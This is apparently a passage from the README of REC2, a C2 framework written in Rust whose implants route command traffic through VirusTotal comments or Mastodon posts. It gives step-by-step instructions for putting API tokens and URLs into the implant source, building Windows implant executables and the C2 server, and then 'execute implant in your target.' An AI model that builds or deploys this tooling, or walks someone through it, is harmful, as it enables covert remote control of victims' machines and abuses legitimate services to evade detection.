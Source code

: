 
Change some values in **implants/(mastodon,virustotal)/src/main.rs** : 

```rust
// (MASTODON or VIRUSTOTAL) TOKEN 
// <https://mastodon.be/settings/applications>
// <https://developers.virustotal.com/reference/authentication>
let token = lc!("TOKEN").to_owned();
// (MASTODON or VIRUSTOTAL) FULL URL
//let full_url = lc!("https://mastodon.xx/@username/100123451234512345").to_owned();
let full_url = lc!("https://www.virustotal.com/gui/file/99ff0b679081cdca00eb27c5be5fd9428f1a7cf781cc438b937cf8baf8551c4d").to_owned();
```

Make **Windows x64 implant** static binary: 

```bash
make virustotal_windows
make mastodon_windows
```

You can find (**rec2_virustotal_x64.exe** or **rec2_mastodon_x64.exe**) in your current directory.

**And to finish**, compile the **server** binary:

```bash
make c2server_release
./server_release -h
./server_release VirusTotal -h
./server_release Mastodon -h

# Example
./server_release VirusTotal --url <URL> --token <TOKEN> --key <AES_KEY>
```

Now you just need to execute implant in your target.

# :tractor: How to compile it?

## Using Makefile

You can use the **make** command to compile it for Linux, Windows or mac0S.

More command in the **Makefile**:

```bash
REC2 Server:
usage: make c2server_debug
usage: make c2server_release
usage: make c2server_windows
usage: make c2server_windows_x64
usage: make c2server_windows_x86
usage: make c2server_linux
usage: make c2server_linux_aarch64
usage: make c2server_linux_x86_64
usage: make c2server_macos
usage: make c2server_arm_musl
usage: make c2server_armv7

VirusTotal implant:
usage: make virustotal_debug
usage: make virustotal_release
usage: make virustotal_windows
usage: make virustotal_windows_x64
usage: make virustotal_windows_x86
usage: make virustotal_linux
usage: make virustotal_linux_aarch64
usage: make virustotal_linux_x86_64
```